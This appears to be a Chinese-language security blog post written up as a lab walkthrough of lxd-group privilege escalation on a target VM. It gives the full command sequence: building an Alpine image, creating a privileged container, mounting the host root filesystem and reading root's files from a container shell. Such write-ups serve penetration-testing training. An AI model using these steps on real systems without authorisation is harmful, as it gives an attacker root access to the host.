 ```yaml
---
title: lxd组用户提权
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# lxd组用户提权

`Linux Daemon`（`LXD`）是一个轻量级容器管理程序，而LXD是基于LXC容器技术实现的，而这种技术之前`Docker`也使用过。

## 靶机操作

1. 查看用户所属组
    
    ```bash
    hackable_3@ubuntu20:~$ id
    uid=1000(hackable_3) gid=1000(hackable_3) groups=1000(hackable_3),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
    ```
    
2. 查看lxc和lxd是否存在
    
    ```bash
    hackable_3@ubuntu20:~$ which lxd
    /snap/bin/lxd
    hackable_3@ubuntu20:~$ which lxc
    /snap/bin/lxc
    ```
    

## 攻击机操作

1. `git` 克隆构建好的`alpine`到本地
    
    ```bash
    git clone https://github.com/saghul/lxd-alpine-builder.git
    ```
    
2. 执行`build -alpine` 命令完成最新的`Alpine`镜像构造（须由`root`完成）
    
    ```bash
    cd lxd-alpine-builder   
    sudo ./build-alpine
    ```
    
    ```bash
    hackable_3@ubuntu20:~/lxd-alpine-builder$ ls
    alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  metadata.yaml  README.md  rootfs  templates
    ```
    
3. 将压缩包发送到靶机

## 靶机操作

1. 将压缩包下载下来
2. 导入镜像并初始化镜像
    
    ```bash
    hackable_3@ubuntu20:~/lxd-alpine-builder$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias test                                           
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b                                                            
    ```
    
    `lxd`初始化
    
    ```bash
    hackable_3@ubuntu20:~/lxd-alpine-builder$ lxd init                                                                                                           
    Would you like to use LXD clustering? (yes/no) [default=no]:                  
    Do you want to configure a new storage pool? (yes/no) [default=yes]:          
                                                                                                                                                                 
    Name of the new storage pool [default=default]: Name of the storage backend to use (lvm, ceph, btrfs, dir) [default=btrfs]:  
    Create a new BTRFS pool? (yes/no) [default=yes]:                              
    Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]:                                                      
    Size in GB of the new loop device (1GB minimum) [default=5GB]:                
    Would you like to connect to a MAAS server? (yes/no) [default=no]:            
    Would you like to create a new local network bridge? (yes/no) [default=yes]:  
    What should the new bridge be called? [default=lxdbr0]:                       
    What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:                                                                   
    What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:                                                                   
    Would you like the LXD server to be available over the network? (yes/no) [default=no]:                                                                       
    Would you like stale cached images to be updated automatically? (yes/no) [default=yes]                                                                       
    Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:           
    ```
    
    初始化镜像
    
    ```bash
    hackable_3@ubuntu20:~/lxd-alpine-builder$ lxc init test test -c security.privileged=true
    Creating test 
    ```
    
3. 挂载镜像
    
    重要：就是将当前靶机的根目录挂载到容器的`/mnt/root` 上面去
    
    ```bash
    hackable_3@ubuntu20:~/lxd-alpine-builder$ lxc config device add test test disk source=/ path=/mnt/root recursive=true                                        
    Device test added to test  
    ```
    
4. 启动镜像并进入镜像就可以访问任意文件
    
    ```bash
    lxc start test
    lxc exec test /bin/sh
    ls -al /mnt/root/root/root.txt
    ```
